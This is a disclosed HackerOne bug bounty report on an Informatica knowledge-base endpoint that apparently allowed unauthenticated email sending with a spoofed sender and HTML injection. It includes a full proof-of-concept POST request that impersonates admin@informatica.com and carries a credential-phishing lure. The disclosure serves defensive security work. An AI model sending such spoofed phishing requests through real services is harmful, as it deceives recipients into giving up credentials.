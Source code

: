 # [kb.informatica.com] Unauthenticated emails and HTML injection in email messages

## Report Details
- **Report ID**: 139402
- **URL**: https://hackerone.com/reports/139402
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-05-17T18:06:34.804Z
- **Disclosed**: 2016-11-28T16:35:38.925Z

## Reporter
- **Username**: strukt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Hello,

The endpoint at https://kb.informatica.com/_layouts/infa_kb/preview/EmailExtended.aspx?docid=anything is vulnerable to unauthenticated emails, which allows attackers to impersonate anyone and send emails on their behalf.

Also, the message body field is vulnerable to HTML injection, which allows the attacker to inject <a> and <img> tags in the message to make it more appealing to the victim.

The attacker is only able to use all the message parts (subject and body, and spoof the sender email) when the value of the GET parameter "docid" is invalid, following is a PoC request:

POST /_layouts/infa_kb/preview/EmailExtended.aspx?docid=test HTTP/1.1
Host: kb.informatica.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.8.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://kb.informatica.com/_layouts/infa_kb/preview/EmailExtended.aspx?docid=test
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 456

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwUKLTEzODI5NjM1MmRkIAMIwf3AXuDHeZBC%2Bpk%2FVrqUtUo%3D&__VIEWSTATEGENERATOR=D7632FD9&__EVENTVALIDATION=%2FwEWDQKX6trHCgLs0bLrBgLs0fbZDALs0Yq1BQLs0e58AuzRgtgJAuzRxsYPAoznisYGApCjwqsNAs3nv%2BIOAsHFicAHAtPVqd4NAozmy%2BgBxyQ%2FpTxgPj3UtaL60YTEMzWLNM8%3D&TextBox1=████████&TextBox2=&TextBox3=&TextBox4=admin@informatica.com&TextBox5=A convincing subject&TextBox6=Hello, please visit <a href=http://www.example.com>Our login page</a> and enter your credentials to win a reward.&Button1=Submit

The above request will send an email to ████ from admin@informatica.com with a message that asks to open a link and enter the user's credentials, which will be really convincing for the user, especially if the attacker has already registered a domain name that looks like Informatica's legit one.

I have attached a screenshot of the mail I received from the above request to make it more clear.

Regards

## Attachments
- Selection_011.png
